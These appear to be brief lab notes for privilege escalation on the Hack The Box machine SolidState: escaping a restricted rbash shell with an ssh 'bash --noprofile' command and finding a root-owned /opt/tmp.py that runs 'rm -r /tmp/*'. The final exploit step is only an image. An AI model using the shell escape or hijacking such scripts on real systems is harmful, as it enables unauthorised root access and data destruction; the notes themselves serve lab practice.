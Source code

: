 # 20 - PrivEsc


# Restricted ssh

```bash
mindy@solidstate:~$ echo $SHELL
/bin/rbash
mindy@solidstate:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

# Environment
```sql
mindy@solidstate:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
mindy@solidstate:~$ PATH=$PATH:/bin
-rbash: PATH: readonly variable
```

# Escaping rbash
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/solidstate/exploit]
└─$ ssh -l mindy 10.10.10.51 -t "bash --noprofile"   
```


# tmp.py in /opt 
![](vx_images/1370817526213.png)

# tmp.py
```
mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

# Exploit
![](vx_images/906912767221.png)